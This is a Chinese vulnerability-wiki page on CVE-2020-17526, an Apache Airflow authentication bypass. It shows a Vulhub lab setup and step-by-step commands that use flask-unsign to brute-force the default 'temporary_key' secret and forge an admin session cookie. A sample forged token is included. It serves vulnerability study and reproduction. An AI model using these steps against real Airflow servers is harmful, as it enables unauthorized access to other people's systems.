




# Apache Airflow 默认密钥导致的权限绕过 CVE-2020-17526

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：<=1.10.13所称版本、认证已启用但仍用temporary_key、有效user_id对应权限；实验1.10.10
- 证据范围：无密钥/默认key可签会话链清晰，签名cookie样例有时效，用户名不等于任意不存在账号

### 本次正文校订

- 按实际内容修正 1 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 仅升级不必然替换保留的默认key，需明确改key/旧会话失效
- 缺固定版本及具体认证backend条件
- cookie示例过期不能直接重用，user_id1是否管理员需核
- 第三方浏览器插件仅便捷方式不必需

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

## 漏洞描述

Apache Airflow是一款开源的，分布式任务调度框架。默认情况下，Apache Airflow无需用户认证，但管理员也可以通过指定`webserver.authenticate=True`来开启认证。

在其1.10.13版本及以前，即使开启了认证，攻击者也可以通过一个默认密钥来绕过登录，伪造任意用户。

参考链接：

- https://lists.apache.org/thread/rxn1y1f9fco3w983vk80ps6l32rzm6t0
- https://kloudle.com/academy/authentication-bypass-in-apache-airflow-cve-2020-17526-and-aws-cloud-platform-compromise

## 环境搭建

Vulhub执行如下命令启动一个Apache Airflow 1.10.10：

```
#初始化数据库
docker-compose run airflow-init

#启动服务
docker-compose up -d
```

服务器启动后，访问`http://your-ip:8080/admin/airflow/login`即可查看到登录页面。

## 漏洞复现

首先，我们访问登录页面，服务器会返回一个签名后的Cookie：

```shell
curl -v http://localhost:8080/admin/airflow/login
```




然后，使用[flask-unsign](https://github.com/Paradoxis/Flask-Unsign)这个工具来爆破签名时使用的`SECRET_KEY`：

```
# 安装flask-unsign
pip install flask-unsign[wordlist]

# 开始爆破
flask-unsign -u -c [session from Cookie]
```




Bingo，成功爆破出Key是`temporary_key`。使用这个key生成一个新的session，其中伪造`user_id`为1：

```
flask-unsign -s --secret temporary_key -c "{'user_id': '1', '_fresh': False, '_permanent': True}"
```




新生成的session为：

```
eyJfZnJlc2giOmZhbHNlLCJfcGVybWFuZW50Ijp0cnVlLCJ1c2VyX2lkIjoiMSJ9.YkJ2WQ.sUbyyQy70a2A6FPd6fO6UVAyQ-U
```

在浏览器中使用这个新生成的session，可见已成功登录：




可以使用Chrome插件[EditThisCookie](https://chrome.google.com/webstore/detail/editthiscookie/fngmhnnpilhplaeedifhccceomclgfbg/related?hl=zh)对Cookie进行修改。


---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
